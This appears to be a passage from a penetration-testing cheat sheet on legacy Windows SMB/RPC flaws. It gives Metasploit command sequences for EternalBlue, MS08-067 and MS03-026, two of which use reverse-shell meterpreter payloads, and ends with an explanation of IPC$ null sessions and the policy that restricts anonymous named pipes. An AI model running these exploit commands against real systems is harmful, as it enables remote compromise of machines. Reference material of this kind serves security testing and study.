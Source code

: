     ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in Microsoft's implementation of the SMB protocol that could allow remote code execution. This exploit was used in the WannaCry ransomware attack.

#### MS08-067 (Conficker Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the Server service's handling of RPC requests, allowing for remote code execution.

#### MS03-026 (Blaster Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms03_026_dcom
    set RHOST <target_ip>
    run
    ```
* **Description:** A critical vulnerability in the RPC interface that allowed remote code execution. Exploits a heap overflow in the RPCSS service to execute arbitrary code with SYSTEM privileges.

#### IPC$ Share Exploit

*   **Description:** The IPC$ share is also known as a null session connection. By using this session, Windows lets anonymous users perform certain activities, such as enumerating the names of domain accounts and network shares.

    The IPC$ share is created by the Windows Server service. This special share exists to allow for subsequent named pipe connections to the server. The server's named pipes are created by built-in operating system components and by any applications or services that are installed on the system. When the named pipe is being created, the process specifies the security associated with the pipe. Then it makes sure that access is only granted to the specified users or groups.

    Configure anonymous access by using network access policy settings

    The IPC$ share can't be managed or restricted in the following versions of Windows:

    * Windows Server 2003
    * Windows Server 2008
    * Windows Server 2008 R2

    However, an administrator has controls over any named pipes that were enabled. They can be accessed anonymously by using the `Network access: Named Pipes that can be accessed anonymously` security policy setting. If the policy setting is configured to have no entries, such as a Null value, no named pipes can be accessed anonymously. And you must ensure that no applications or services in the environment rely on anonymous access to any named pipes on the server.
